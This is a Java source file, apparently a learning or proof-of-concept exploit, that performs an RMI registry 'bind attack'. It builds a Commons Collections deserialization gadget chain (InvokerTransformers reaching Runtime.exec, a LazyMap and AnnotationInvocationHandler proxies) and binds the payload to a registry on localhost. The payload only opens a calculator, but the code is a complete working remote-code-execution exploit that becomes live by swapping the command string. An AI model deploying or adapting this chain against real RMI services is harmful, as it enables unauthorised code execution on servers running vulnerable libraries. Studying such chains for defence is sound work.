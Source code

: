 ```java
 */
public class BindAttack {

    public static void bindAttack() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, AlreadyBoundException, RemoteException {
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        Map map = (Map)constructor.newInstance(innermap,chainedTransformer);


        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler); //创建proxy对象

        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 8888);
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler));
        registry.bind("user", remote);
    }

    public static void main(String[] args) {
        try {
            bindAttack();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

